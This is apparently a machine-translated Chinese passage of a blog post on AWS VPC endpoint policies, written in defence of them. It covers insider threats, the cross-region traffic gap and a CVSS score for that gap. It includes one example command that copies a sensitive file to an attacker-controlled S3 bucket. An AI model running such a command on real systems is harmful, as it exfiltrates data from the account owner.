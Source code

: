 ![](img/8e467ee8217d911c3ea9ad70022917b7.png)

我建议对您的所有端点使用 VPC 端点策略。它们通过强制执行授权流量来改善您的安全状况，尤其是在涉及恶意内部人员时。如果有人获得了对 VPC 资源的外壳访问权，并从他们自己的 AWS 帐户引入凭证，则具有正确配置的策略的 VPC 端点可以阻止这些凭证被使用。即使*恶意*配置文件在 IAM 中有适当的访问权限，下面的命令也会失败

```
aws s3 cp ./sensitivefile s3://maliciousbucket --profile malicious
```

在设计您的 VPC 端点架构时，理解您的用例及架构尤为重要。没有放之四海而皆准的方法。不要过分为每个 API 动作创建端点。具有复杂策略的共享终端是完全可以接受的，只要该设计能够适应您的威胁模型。

# 区域间的流量呢？

您现在可能已经注意到，在上述每个场景中，我们都在一个地区工作，即 us-east-1。如果您想从区域 B 中的 VPC 访问区域 A 中的资源，会发生什么情况呢？它的关键是你可以，但除非你想让它通过互联网，你必须配置类似这里概述的参考架构[https://hands-on . cloud/automating-access-to-multi-region-VPC-endpoints-using-terraform/](https://hands-on.cloud/automating-access-to-multi-region-vpc-endpoints-using-terraform/)。这利用了 DNS 转发规则，允许您通过私有通道利用跨区域 API。然而，由于它的复杂性和范围限制，它并不理想；它要求每个区域都有一个 DNS 转发规则，每个区域都有一个 VPC 端点，并且每个区域都有一个正确配置的策略。这增加了大量额外的管理开销，尤其是如果您在其他区域没有 VPC 工作负载的话。最后但并非最不重要的是，如果你没有一个特定地区的 DNS 转发规则，该流量仍将通过公共互联网。没有单一的包罗万象。恶意的内部人员仍然可以通过点击按钮将您的所有数据发送到他们拥有的另一个区域的 bucket 中。我估计这个漏洞在 CVSS 3.1 评分系统中最低为 6 分，但也可能高达 8.2 分。我将完整性影响和可用性影响标记为“无”,但可以说它们可能更高。以下是我对它的评分:

[AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:N/A:N](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:N/A:N&version=3.1)

我倾向于在创建端点时指定多区域支持。Amazon 已经在幕后控制该区域的 DNS 条目，为每个区域自动添加 DNS 记录是微不足道的。对于网关端点，他们已经知道他们所有的 IP 地址，为什么不更新前缀列表来包括所有区域的公共范围呢？S3 跨区域复制以及 VPC 和 TGW 的跨区域对等网络的管道肯定是存在的。
